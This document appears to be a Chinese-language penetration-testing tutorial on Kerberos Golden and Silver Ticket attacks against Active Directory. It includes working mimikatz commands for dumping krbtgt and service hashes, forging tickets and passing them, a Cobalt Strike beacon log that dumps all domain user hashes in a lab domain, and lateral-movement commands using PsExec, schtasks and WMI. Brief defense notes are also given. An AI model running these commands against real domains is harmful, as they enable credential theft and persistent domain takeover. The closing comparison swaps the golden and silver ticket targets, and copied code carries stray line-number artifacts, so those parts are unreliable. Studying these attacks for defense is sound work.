

### kerberos协议

- kerberos是一种由MIT提出的一种`网络身份验证`协议,它旨在通过`使用加密技术`为客户端/服务端应用程序提供强大的认证服务,需要三方(`访问服务的client`,`提供服务的server`,`kdc密钥分发中心->AS && TGS`)的共同参与
- 其中kdc服务默认会安装在一个`域的域控中`,而client和server为`域内的用户`或者是`服务`,如http服务,sql服务
- kerberos中client`是否有权限`访问server端的服务由`kdc发放的票据`决定
- `AS`:身份验证服务,`TGS`票据授予服务
- kerberos认证流程

```cmd
#1.AS_REQ:Client -> AS
-client向kdc发起AS_REQ,请求内容为通过client密码hash,加密的时间戳,client ID,网络地址,加密类型等内容
#2.AS_REP:AS -> Client
-kdc使用client hash进行解密,并在ntds.dit中查找该账户,如果结果正确就返回用krbtgt NTLM-hash加密的TGT票据,TGT里面包含PAC,PAC包含client的sid,client所在的组
#3.TGS_REQ:Client -> TGS
-Client 凭借TGT票据向kdc发起针对特定服务的TGS_REQ请求
#4.TGS_REP:TGS -> Client
-kdc使用krbtgt NTML-hash进行解密,如果结果正确,就返回用服务NTLM-hash加密的TGS票据,并带上PAC
```

- 注意:PAC的全称是特权属性证书,不同的账号有不同的权限,PAC就是为了`区分不同权限`的一种方式

****

### 黄金票据攻击

- 黄金票据–伪造`票据授予票据`(TGT),也称为认证票据.解决:如何证明你本人是xxx用户的问题
- 黄金票据是通过伪造的TGT,因为只要有了`高权限的TGT`,那么就可以发送给TGS`换取任意服务的TGS`
- `伪造过程`:

```cmd
#1.获取域控的Krbtgt NTLM Hash值(在域控中操作)
lsadump::dcsync /domain:域名 /user:krbtgt

#2.生成伪造的黄金票据(在client)
kerberos:golden /user:伪造的用户名 /domain:域名 /sid:domain-sid /krbtgt:ntlmhash值 /ticket:票据名称

#参数说明
/admin:伪造的用户名
/domain:域名称
/sid:域的SID(不包括后3位)
/krbtgt: krbtgt 的NTLM-HASH 值
/ticket:生成的票据名称

#3.清空本地票据缓存,导入伪造的票据
#票据20分钟内有效,过期后可以再次导入

#清除本地票据缓存
kerberos::purge
#查看本地保存的票据，观察client name
kerberos::list 
#查看票据列表(cmd下)
klist
 #导入伪造的黄金票据
kerberos::ptt 票据名 	 

#4.利用伪造的黄金票据
#远程执行命令
dir \\dc\c$

#获取交互式shell
PsExec64.exe \\win2003- :-1 cmd.exe
```

****

#### CS伪造基本流程

```cmd
[11/15 14:34:45] [+] ----------------------------------------导出域内所有用户hash------------------------------------------------------------
[11/15 14:34:45] [*] Tasked beacon to run mimikatz's lsadump::dcsync /domain:laffrex.com /all /csv command
[11/15 14:34:46] [+] host called home, sent: 788081 bytes
[11/15 14:34:48] [+] received output:
[DC] 'laffrex.com' will be the domain
[DC] 'DC.laffrex.com' will be the DC server
[DC] Exporting domain 'laffrex.com'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500	Administrator	81b1f71308ed62abfbc2b4b8c85d75d1	512
502	krbtgt	b036bd80f7d70fc72b920c1eeb8acc55	514
1121	DESKTOP-K196DPF$	7c77f78943e77ee5f29c7baa2ff85834	4096
1122	Winserver2008	01a6d72cb7de962186ffe968f82461b5	512
1124	Win11	e6f2734cf5c617cf665ebfe050d83651	512
1123	WINSERVER2008-$	6cdae6729454f01a9c39b1e56f979e33	4096
1125	Win10	01a6d72cb7de962186ffe968f82461b5	512
1126	WINDOWS10$	6f99b07550473832ac81dd6d83f34e4e	4096
1018	DC$	bc8144babd6a3fa15f0e4a20cb31b77b	532480


[11/15 14:38:32] [+] -------------------------------------------------查询用户SID和域SID-------------------------------------------------------------
[11/15 14:38:32] [+] 如用户的SID是：S-1-5-21-2189311154-2766837956-1982445477-520 则域SID则是去掉最后的520：S-1-5-21-2189311154-2766837956-1982445477
[11/15 14:38:32] [*] Tasked beacon to run: whoami /user
[11/15 14:38:32] [+] host called home, sent: 43 bytes
[11/15 14:38:32] [+] received output:

用户信息
----------------

用户名                 SID                                          
====================== =============================================
laffrex0\administrator S-1-5-21-1027567978-1567870151-2422577431-500

[11/15 14:39:19] beacon> mimikatz kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431-500  /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt
[11/15 14:39:20] [*] Tasked beacon to run mimikatz's kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431-500  /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt command
[11/15 14:39:20] [+] host called home, sent: 297586 bytes
[11/15 14:39:21] [+] received output:
ERROR kuhl_m_kerberos_golden ; Domain name does not look like a FQDN

[11/15 14:41:05] beacon> mimikatz kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt
[11/15 14:41:05] [*] Tasked beacon to run mimikatz's kerberos::golden /user:administrator /domain:laffrex0 /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt command
[11/15 14:41:05] [+] host called home, sent: 297586 bytes
[11/15 14:41:06] [+] received output:
ERROR kuhl_m_kerberos_golden ; Domain name does not look like a FQDN

[11/15 14:41:47] beacon> mimikatz kerberos::golden /user:administrator /domain:laffrex.com /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt
[11/15 14:41:47] [*] Tasked beacon to run mimikatz's kerberos::golden /user:administrator /domain:laffrex.com /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt command
[11/15 14:41:47] [+] host called home, sent: 297586 bytes
[11/15 14:41:49] [+] received output:
User      : administrator
Domain    : laffrex.com (LAFFREX)
SID       : S-1-5-21-1027567978-1567870151-2422577431
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: b036bd80f7d70fc72b920c1eeb8acc55 - rc4_hmac_nt      
Lifetime  : 2024/11/15 14:41:48 ; 2024/11/15 22:41:48 ; 2024/11/22 14:41:48
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'administrator @ laffrex.com' successfully submitted for current session
```




****

#### 小结

- 伪造黄金票据需要知道krbtgt账号的NTLM-hash

- 黄金票据能用在权限提升和权限维持

- 利用mimikatz工具在win2003及以下,导入黄金票据时会报错

- 用ip登录会显示拒绝访问或者账号密码不正确

  ```cmd
  #NTLM仍然使用在以下场景
  1.客户端使用ip地址向服务器认证
  2.客户端向一个未加入域的服务器认证
  3.未使用活动目录的场景(通常指工作组或对等网络)
  4.防火墙策略限制了kerberos使用的端口(tcp port 88)
  5.域控端口:88 389
  ```

****

#### 防御方法

- 限制域管理员登录到除域控制器和少数管理服务器以外的任何其它计算机
- 定期修改krbtgt密码
- 通过快速更改krbtgt密码两次,使黄金票据失效

****

### 白银票据攻击

- 白银票据时一个`有效的票据授予服务`(TGS) kerberos票据,因为kerberos验证服务运行的每台服务器都对服务主体名称的服务账户进行加密和签名
- 白银票据是`伪造TGS`这意味着白银票据仅`限于特定服务器`上的`某一个服务`
- 大多数服务不验证PAC,因此使用服务`账号密码生成的有效TGS`可以完全伪造PAC
- 攻击者需要`服务账户`的`NTLM hash`
- ST是伪造的,所以没有和TGS通信,意味着`绕过KDC的身份验证`
- 任何事件日志都在目标服务器上

****

#### 前提条件

- 域名称
- 域的sid值
- 域的服务账户的密码hash
- 伪造的用户名,可以是任意用户名,一般是伪造`administrator`
- 需要访问的服务

****

#### 伪造流程

1. 用域管理员账号登录主域控,使用mimikatz.exe执行命令抓取hash(在域控中执行) uage-apl

   ```apl
   01020304mimikatz.exe
   
   privilege::debug
   sekurlsa:logonpasswords
   ```

2. 伪造票据。得到服务账户的HASH之后使用 mimikatz中的kerberos:golden功能，通过/service参数指定服务名，从而生成白银票据TGS ticket。uage-apl

   ```apl
   01020304050607080910kerberos:golden /user:伪造的用户名 /domain:域名 /sid:域SID值 /target:目标主机 /rc4:目标主机服务的HASH值(NTLM) /service:需要伪造的服务  /ptt
   
   #参数说明
   /domain:指定域名
   /sid:域sid号(最后一部分)
   /target:目标主机计算机名
   /rc4:目标主机服务的hash(NTLM)
   /service:需要伪造的服务
   /user:需要伪造的用户名
   /ppt:伪造了以后直接写入到内存中
   ```

   | 服务类型            | 白银票据对应的服务名 |
   | ------------------- | -------------------- |
   | WMI                 | HOST/RPCSS           |
   | PowerShell Remoting | HOST/HOST            |
   | WinRM               | HOST/HTTP            |
   | Scheduled Tasks     | HOST                 |
   | Windows File Share  | CIFS                 |

3. 利用伪造的白银票据 uage-apl

   ```apl
   01dir \\dc.laffrex.com\c$
   ```

#### 扩展利用

##### 计划任务

- 利用HOST服务来修改或创建计划任务，需要导入一张 **HOST Silver Ticket**

1. 创建票据 uage-apl

   ```apl
   01kerberos:golden /user:伪造的用户名 /domain:域名/sid:sID /target:日标主机 /rc4:日标主机的hash值/service:HOST /ptt
   ```

2. 创建计划任务 uage-apl

   ```apl
   01schtasks /create /S dc.laffrex.com /sc WEEKLY /tn "test" /tr "c:\windows\system32\calc.exe" 
   ```

3. 查看是否添加成功 uage-apl

   ```cmd
   010203schtasks /query /s dc.laffrex.com
   #如果无法查看，使用美国时区编码
   chcp 437
   ```

##### 远程命令执行

- 使用WMI在目标系统上远程命令执行。需要导入两张Silver Ticket,一张**host Silver Ticket**,一张**rpcss Silver Ticket**

1. 导入票据 uage-apl

   ```apl
   010203kerberos:golden /user:伪造的用户名 /domain:域名 /sid:sID /target:目标主机 /rc4:目标主ss的hash值 /service:host  /ptt
   
   kerberos:golden /user:伪造的用户名 /domain:域名 /sid: SID /target:目标主机 /rc4:目标主机的hash值 /service:rpcss  /ptt
   ```

2. 执行wmi命令，在远程主机上创建新进程

#### 防御方法

1. 尽量保证凭证不被获取到

2. 增加验证

   1. 通过开启PAC(Privileged Attribute Certificate)特权属性证书保护功能。开启PAC后，PAC会将client发送的票据ticket发送给KDC，由KDC进行验证ticket是否有效，就可以使所伪造的票据无法进行利用。

   2. 在Server端开启的方式是更改注册表中的一个值，将uage-apl

      ```apl
      01HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters
      ```

      中的ValidateKdcPacSignature设为1

#### 实例

1. 获取到目标服务器的NTLM哈希值

   - 为服务器的HTLM哈希值，而不是用户的 uage-apl

   ```apl
010203040506privilege::debug
   
   sekurlsa::logonpasswords
   
   #去掉sid后3位，为域控信息标志位
   S-1-5-21-1027567978-1567870151-2422577431
   ```
   
   

2. 在本机上制作白银票据，写入内存 uage-apl

   ```apl
   01kerberos::golden /user:Administrator /domain:laffrex.com /sid:S-1-5-21-1027567978-1567870151-2422577431 /target:dc.laffrex.com /service:cifs /rc4:bc8144babd6a3fa15f0e4a20cb31b77b /ptt
   ```

   

   

3. 验证权限

   

   

   

### 两者区别

#### 访问权限

- 黄金票据:伪造TGT，可以获取任何Kerberos服务权限
- 白银票据:伪造TGS，只能访问指定的服务

#### 加密方式

- 黄金票据:由Kerberos的Hash加密
- 白银票据:由服务账号(通常为计算机账户)Hash加密

#### 认证流程

- 黄金票据:黄金票据的利用过程需要访问域控
- 白银票据:不需要认证，可以跳过KDC的认证

#### 针对目标

- 黄金票据：TGS ticket针对的是某个机器上的某个服务，
- 白银票据：TGT针对的是所有机器的所有服务